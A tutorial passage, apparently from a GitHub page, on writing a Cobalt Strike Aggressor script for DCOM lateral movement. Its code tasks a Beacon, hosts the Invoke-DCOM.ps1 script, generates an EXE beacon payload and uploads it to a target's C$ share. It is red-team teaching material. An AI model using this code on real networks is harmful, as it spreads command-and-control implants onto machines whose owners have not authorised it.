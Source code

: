 > **Note**: Sleep language have `global`, `closure-specific` and `local` scopes for variable declaration.

The next step is to acknowledge receipt of the task using `btask`.  This takes the ID of the Beacon, the text to post and an ATT&CK tactic ID.  This will print a message to the Beacon console and add it to the data model used in the activity and session reports that you can generate from Cobalt Strike.

```c
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");
}
```

In that case:

* `$1` is the Beacon ID.
* `$2` is the target to jump.
* `$3` is the selected listener.

Next we want to read in the `Invoke-DCOM.ps1` script from our machine. This can be done with `openf`, `getFileProper` and `script_resource`.

```c
# read the script
$handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
$script = readb($handle, -1);
closef($handle);
```

At this moment `$script` has the content of `Invoke-DCOM.ps1`. We can use [https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_host_script](beacon_host_script), this will host the script inside Beacon and returns a short snippet for running it.

```c
# host the script in Beacon
$oneliner = beacon_host_script($1, $script);
```

> **Note**: We can use `println($oneliner)` to see the content of variables. We can check in the Script Console `Cobalt Strike -> Script Console`.

Next step is to generate and upload a paylaod to the target using [https://download.cobaltstrike.com/aggressor-script/functions.html#artifact_payload](artifact_payload) and [https://download.cobaltstrike.com/aggressor-script/functions.html#bupload_raw](bupload_raw). These functions will generate an EXE payload and will upload it to the target directory.

```c
# generate stageless payload
$payload = artifact_payload($3, "exe", "x64");

# upload to the target
bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);
```
